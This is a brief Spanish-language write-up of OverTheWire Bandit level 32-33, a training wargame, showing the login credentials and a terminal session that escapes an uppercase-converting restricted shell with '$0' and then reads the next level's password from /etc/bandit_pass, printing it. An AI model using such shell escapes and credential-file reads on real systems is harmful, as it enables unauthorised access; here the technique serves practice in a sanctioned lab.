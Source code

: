 # Level 32-33

## Objetivo
After all this `git` stuff its time for another escape. Good luck!
## Datos de Acceso
ssh bandit32@bandit.labs.overthewire.org -p 2220
rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
## Solución
``` bash
C:\WINDOWS\system32>ssh bandit32@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _
                        | |__   __ _ _ __   __| (_) |_
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_
                        |_.__/ \__,_|_| |_|\__,_|_|\__|


                      This is an OverTheWire game server.
            More information on http://www.overthewire.org/wargames

bandit32@bandit.labs.overthewire.org's password:
>> ls
sh: 1: LS: not found
>> $0
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ whoami
bandit33
$ cat /etc/bandit\_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```
## Notas Adicionales

## Referencias

